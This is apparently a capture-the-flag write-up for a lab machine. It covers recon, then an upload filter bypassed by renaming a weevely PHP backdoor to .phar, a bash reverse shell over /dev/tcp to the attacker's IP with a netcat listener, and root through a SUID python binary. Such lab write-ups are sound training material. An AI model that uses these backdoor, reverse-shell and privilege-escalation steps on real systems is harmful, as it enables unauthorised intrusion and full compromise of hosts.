

# Recon
---

## Autorecon

```bash
┌──(kali㉿kali)-[~/thm]
└─$ sudo $(which autorecon) 10.10.148.99 -v
[*] Identified service ssh on tcp/22 on 10.10.148.99
[*] Identified service http on tcp/80 on 10.10.148.99
```

## 80 - HackIT - Home

### Info


### Dir

```bash
┌──(kali㉿kali)-[~/thm]
└─$ feroxbuster -u http://10.10.148.99 --burp
301      GET        9l       28w      314c http://10.10.148.99/uploads => http://10.10.148.99/uploads/
301      GET        9l       28w      310c http://10.10.148.99/css => http://10.10.148.99/css/
200      GET      105l      188w     1697c http://10.10.148.99/css/home.css
200      GET      100l      161w     1611c http://10.10.148.99/css/panel.css
301      GET        9l       28w      309c http://10.10.148.99/js => http://10.10.148.99/js/
301      GET        9l       28w      312c http://10.10.148.99/panel => http://10.10.148.99/panel/
200      GET       11l       22w      263c http://10.10.148.99/js/maquina_de_escrever.js
200      GET       25l       44w      616c http://10.10.148.99/
```

# Get User & Root 
---

An upload page



Generate weevly backdoor

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely generate x w
Generated 'w' with password 'x' of 687 byte size.
```

It will block php files


Use `.phar` to bypass

```bash
┌──(kali㉿kali)-[~/thm]
└─$ mv w.php w.phar
```

Successfully uploaded


Reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ weevely http://10.10.148.99/uploads/w.phar x
www-data@rootme:/var/www/html/uploads $ /bin/bash -c "/bin/bash -i >& /dev/tcp/10.11.19.145/1111 0>&1"
```

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.148.99] 49580
bash: cannot set terminal process group (913): Inappropriate ioctl for device
bash: no job control in this shell
www-data@rootme:/var/www/html/uploads$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ads$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@rootme:/var/www/html/uploads$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1111

www-data@rootme:/var/www/html/uploads$ find / -type f -perm -u=s+ 2>/dev/null
...
/usr/bin/python
...

www-data@rootme:/var/www/html/uploads$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
bash-4.4# id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```